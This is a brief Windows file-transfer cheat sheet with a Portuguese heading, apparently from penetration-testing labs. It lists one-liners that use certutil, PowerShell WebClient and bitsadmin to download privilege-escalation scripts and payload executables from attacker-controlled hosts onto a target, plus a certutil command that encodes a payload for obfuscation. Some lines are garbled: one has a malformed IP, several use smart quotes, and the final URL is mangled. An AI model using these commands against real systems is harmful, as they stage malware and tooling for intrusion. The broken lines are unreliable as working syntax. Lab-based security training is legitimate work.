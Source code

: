 # Mandar Ficheiros Windows

`certutil -urlcache -f  [http://10.10.14.53:8000/winPEAS.ps1](http://10.10.14.53:8000/winPEAS.ps1) winpeas.ps1`

`Certutil Obfuscation`

`certutil -encode payload.exe Encoded-payload.txt`

`powershell -c “(new-object System.Net.WebClient).DownloadFile(’http://10.1010.10:8000/’,’C:\Users\Admin\desktop’)”`

`bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe`

`powershell -c “(new-object System.Net.WebClient).DownloadFile(’[http://10.10.70.45:8000/gatekeeper.exe’,’C:\\Users\\Admin\\desktop\\gatekeeper.exe’](http://10.10.70.45:8000/gatekeeper.exe%E2%80%99,%E2%80%99C:%5C%5CUsers%5C%5CAdmin%5C%5Cdesktop%5C%5Cgatekeeper.exe%E2%80%99))”`